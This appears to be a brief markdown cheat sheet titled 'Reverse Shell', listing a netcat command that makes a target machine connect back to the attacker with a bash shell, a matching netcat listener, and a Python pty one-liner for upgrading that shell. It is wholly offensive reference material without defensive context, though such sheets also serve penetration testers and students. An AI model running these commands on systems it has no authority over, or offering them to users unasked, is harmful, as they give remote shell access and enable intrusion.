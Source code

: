 # Reverse Shell


### Netcat
remote: `nc -e /bin/bash <local-ip> <local-port>`  
local: `nc -lvp <local-port>`

## Upgrading the connection

### Python Pseudo-Terminal
`python -c 'import pty; pty.spawn("/bin/bash")`
